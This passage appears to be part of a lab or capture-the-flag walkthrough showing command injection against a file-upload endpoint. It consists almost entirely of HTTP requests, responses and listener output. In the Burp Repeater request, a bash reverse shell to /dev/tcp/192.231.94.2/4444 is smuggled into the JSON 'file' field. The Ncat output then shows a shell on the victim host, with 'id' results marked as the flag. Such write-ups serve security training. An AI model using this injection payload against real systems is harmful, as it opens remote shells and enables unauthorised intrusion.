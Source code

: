 ```http
Content-Type: text/html; charset=utf-8
Content-Length: 39
Access-Control-Allow-Origin: http://beta.file-backup.com:5000
Vary: Origin
Server: Werkzeug/1.0.1 Python/2.7.17
Date: Wed, 27 Nov 2024 15:52:03 GMT

{"success": "File saved successfully!"}
```

```
Ncat: Connection from 192.231.94.3.
Ncat: Connection from 192.231.94.3:40948.

id
uid=1000 gid=1000 groups=1000,0(root)🚩
```

🔄 Alternative 🔄

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /upload HTTP/1.1
Host: 192.231.94.3:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://beta.file-backup.com:5000/
Content-Type: application/json
Content-Length: 35
Origin: http://beta.file-backup.com:5000
Connection: close

{"file":"test.txt; bash -c 'bash -i >& /dev/tcp/192.231.94.2/4444 0>&1'","data":"test\n"}📌
```
`HTTP Response`:
```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 39
Access-Control-Allow-Origin: http://beta.file-backup.com:5000
Vary: Origin
Server: Werkzeug/1.0.1 Python/2.7.17
Date: Wed, 27 Nov 2024 15:52:03 GMT

{"success": "File saved successfully!"}
```

```
Ncat: Connection from 192.231.94.3.
Ncat: Connection from 192.231.94.3:42104.
bash: cannot set terminal process group (15): Inappropriate ioctl for device
bash: no job control in this shell
groups: cannot find name for group ID 1000
I have no name!@victim-1:/$

id
uid=1000 gid=1000 groups=1000,0(root)🚩
```
